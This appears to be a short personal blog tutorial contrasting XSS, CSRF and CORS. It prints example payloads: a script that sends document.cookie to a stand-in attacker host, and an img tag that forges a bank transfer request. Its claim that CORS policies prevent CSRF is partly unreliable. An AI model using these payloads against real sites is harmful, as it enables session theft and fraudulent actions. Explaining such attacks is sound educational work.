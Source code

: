 ```yaml
---
layout: post
category : 
tags : [learning, tutorial]
use_math : true
---
```

{% include JB/setup %}

Recently I was working on some identity managment projects. During the investigation, I reviewed some security knowledge and found myself didn't tell three basic concepts quite well. Sometimes, I felt hard to remeber the exact scenarios of them and would misuse one of them to describe the scenario which should be another one. The three terminologies are XSS(Cross-site scripting), CSRF(Cross-site request forgery), CORS(Cross-origin resource sharing).

## **XSS \(Cross-site scripting\)**
Two of the most common attacks against websites and web application are XSS and CSRF. 

```
In case of XSS, the victims's trust for a website is exploited, in case of CSRF, the website's trust for a victim's browser is exploited.
```

In case of XSS, attacker would make the victim to execute a piece of injected script. Since the script would be run under the website domain which is trusted by the victim, the attacker can utlize this script to collect some information, such as cookies, and then send these sensitive information to attacker's website. 

Imagine there was a website that provides a search box and it would generate a query url as following based on the content in it each time you click the search button.

```
https://example.com/search?query=<SearchContent>
```

It works well if the search content is just some normal key words. But what if the search content is a script like following? 

```
https://example.com/search?query=<script>alert(1)</script>
```

The script can be executed in the trusted website's domain. We just emit an alert in this script, a worse case could be an injected script to collect and send user cookies like following.

```
<script>
new Image().src="http://attackerurl.com/storecookie?cookie="+document.cookie;
</script>
```

To mitigate this issue, **HTTPOnly** cookie attribute can be used to prevent access to the cookie value through JavaScript.

How could the attacker inject his script to a trusted website? This [post][2] provides some practical scenarios of the XSS attack. 


## **CSRF(Cross-site request forgery)**
In case of CSRF, attacker would try to let browser send a request to an honest website on behalf of the victim. If the victim has already logged in the honest website, these kinds of requests may get some sensitive information of the victim. 

Imagine the victim has already logged in the honest website "www.bank.com", and there was a attcker's website "www.attacker.com" whose content is 

```
<img src="https://www.bank.com/action=transfer&receiver=attacker">
```

Since the victim has already logged in, this request might be send to "www.bank.com" with victim's credentials in the cookies. Then "www.bank.com" would recognize this request is sent on behalf of the victim although it is a cross-site request.

To mitigate this issue, we could use some CORS(Cross-origin resource sharing) polices which prevents the cross-site request.

## **CORS(Cross-origin resource sharing)**
CORS(Cross-origin resource sharing) is a mechanism that allows restricted resources on a web page to be requested from another domain from which the first resource was served. By using it, we can mitigate the CSRF a little bit since the honest website would not allow the request from the attacker's domain to access victim's resources.

[1]: https://medium.com/@l4mp1/difference-between-xss-and-csrf-attacks-ff29e5abcd33
[2]: https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
[3]: https://engineering.mixmax.com/blog/modern-csrf/